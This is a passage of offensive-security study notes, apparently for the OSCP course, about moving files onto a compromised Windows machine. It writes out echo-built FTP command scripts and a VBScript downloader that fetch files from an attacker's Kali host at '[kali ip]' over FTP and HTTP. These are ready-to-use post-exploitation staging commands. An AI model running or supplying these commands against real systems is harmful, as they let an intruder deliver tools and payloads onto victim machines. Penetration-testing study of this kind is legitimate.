On Windows:
```cmd
echo open [kali ip] 21> ftp.txt
echo USER offsec>> ftp.txt # username
echo ftp>> ftp.txt # password
echo bin>> ftp.txt # binary mode
echo GET [file]>> ftp.txt
echo bye>> ftp.txt
ftp -v -n -s:ftp.txt
# or
echo open [kali ip] 21>ftp.txt&echo USER offsec>>ftp.txt&echo ftp>>ftp.txt&echo bin>>ftp.txt&echo GET [file]>>ftp.txt&echo bye>>ftp.txt&ftp -v -n -s:ftp.txt
```

### VBScript via HTTP
Windows XP, 2003

Moderate speed of 50kb/sec. Scripts available in OSCP-Notes/scripts

On Kali:
```sh
service apache2 start
# /var/www/html # DIRECTORY HOSTING FILES
```

On Windows:
```cmd
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET", strURL, False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
cscript wget.vbs http://[kali ip]/[file] [file]
```
